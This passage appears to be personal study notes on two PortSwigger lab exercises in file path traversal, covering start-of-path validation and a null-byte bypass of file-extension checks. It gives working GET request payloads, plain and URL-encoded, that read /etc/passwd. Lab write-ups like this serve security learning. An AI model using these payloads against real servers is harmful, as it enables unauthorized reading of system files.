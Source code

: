 ### [Validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

The application transmits the full file path and validates that it starts with the expected folder.

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
# or (better)
GET /image?filename=%2fvar%2fwww%2fimages%2f..%2f..%2f..%2fetc%2fpasswd
```

![](.gitbook/assets/2024-01-27_13-31-38_384.png)

### [Validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

The app validates the supplied filename end with expected file extension.

- Use a null byte character `\0` to represent the end of the string
  - `../../../etc/passwd\0.png` > `..%2f..%2f..%2fetc%2fpasswd%00.png`
  - the O.S. requests retrieval of the string, it assumes the string is terminated after `passwd`

```bash
GET /image?filename=../../../etc/passwd%00.png
# URL-encoded
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd%00.png
```

![](.gitbook/assets/2024-01-27_13-37-10_385.png)

---


